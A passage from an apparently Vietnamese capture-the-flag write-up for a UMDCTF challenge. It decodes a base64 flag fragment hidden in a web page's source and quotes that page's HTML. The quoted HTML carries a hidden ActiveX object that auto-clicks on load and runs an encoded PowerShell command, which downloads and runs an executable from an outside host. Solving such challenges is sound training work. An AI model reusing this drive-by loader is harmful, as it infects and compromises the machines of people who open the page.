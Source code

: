 Đúng là có chứa 1 trang web thật ... giờ thì chuẩn hơn rồi

![](chall7_3.png)

Ở trong source của trang web có chứa đoạn base64: `VU1EQ1RGezE5OTdfY2FsbGVkXw==`

![](chall7_4.png)

--> `UMDCTF{1997_called_`

```php
<PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
<body>
    <!--VU1EQ1RGezE5OTdfY2FsbGVkXw==--> 
    <OBJECT id=shortcut classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"
        width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
        <PARAM name="Item2" value="273,1,1">
    </OBJECT>
    <SCRIPT> shortcut.Click(); </SCRIPT>
    <div class="container">
        <div class="text"> <strong>
                <h1>DOCTORS HATE HIM!!</h1>
            </strong>
            <p>Do you suffer from low energy, fatigue, and a general lack of motivation? Did your Pokemon leave you for
```